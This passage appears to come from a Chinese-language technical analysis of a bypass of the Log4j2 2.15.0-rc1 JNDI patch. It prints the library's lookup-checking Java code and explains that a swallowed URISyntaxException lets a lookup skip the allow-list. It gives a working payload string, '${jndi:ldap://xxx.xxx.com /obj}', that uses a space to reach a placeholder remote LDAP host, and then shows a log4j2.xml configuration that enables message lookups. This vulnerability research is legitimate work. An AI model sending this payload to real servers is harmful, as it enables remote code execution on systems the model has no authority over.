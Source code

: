 ```java
                    LOGGER.warn("Attempt to access ldap server not in allowed list");
                    return null;
                }
                Attributes attributes = this.context.getAttributes(name);
                if (attributes != null) {
                    Map<String, Attribute> attributeMap = new HashMap<>();
                    NamingEnumeration<? extends Attribute> enumeration = attributes.getAll();
                    while (enumeration.hasMore()) {
                        Attribute attribute = enumeration.next();
                        attributeMap.put(attribute.getID(), attribute);
                    }
                    Attribute classNameAttr = attributeMap.get(CLASS_NAME);
                    // 参考下图我们这种Payload不存在javaSerializedData头
                    // 所以不会进入类白名单判断
                    if (attributeMap.get(SERIALIZED_DATA) != null) {
                        if (classNameAttr != null) {
                            // 类名白名单
                            String className = classNameAttr.get().toString();
                            if (!allowedClasses.contains(className)) {
                                LOGGER.warn("Deserialization of {} is not allowed", className);
                                return null;
                            }
                        } else {
                            LOGGER.warn("No class name provided for {}", name);
                            return null;
                        }
                    } else if (attributeMap.get(REFERENCE_ADDRESS) != null
                               || attributeMap.get(OBJECT_FACTORY) != null) {
                        // 不允许REFERENCE这种加载对象的方式
                        LOGGER.warn("Referenceable class is not allowed for {}", name);
                        return null;
                    }
                }
            }
        }
    } catch (URISyntaxException ex) {
        // This is OK.
    }
    return (T) this.context.lookup(name);
}
```

但是离谱的是捕捉到URISyntaxException后居然设置成不做任何处理，程序继续往下执行了。这样的话我们只要让第一个语句`new URI(name)`抛出一个URISyntaxException就行了，最常用的就是加个空格：

```java
${jndi:ldap://xxx.xxx.com /obj}
```

但是实际上这个利用还是有点鸡肋，因为除了修改了lookup的执行逻辑外，在rc1中默认不对日志进行lookup解析，假如想要启用的话，只能在`log4j2.xml`中修改%msg为%msg{lookups}：

```java
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="[%-level]%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg{lookups}%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="Console"/>
        </Root>
```